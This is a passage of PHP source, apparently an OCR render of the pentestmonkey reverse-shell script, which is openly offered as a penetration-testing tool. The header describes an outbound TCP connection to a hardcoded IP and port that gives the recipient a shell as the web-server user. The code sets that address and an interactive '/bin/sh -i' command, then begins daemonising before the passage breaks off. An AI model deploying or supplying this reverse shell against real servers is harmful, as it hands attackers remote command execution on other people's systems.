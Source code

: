 ```php
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.63.222';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

```
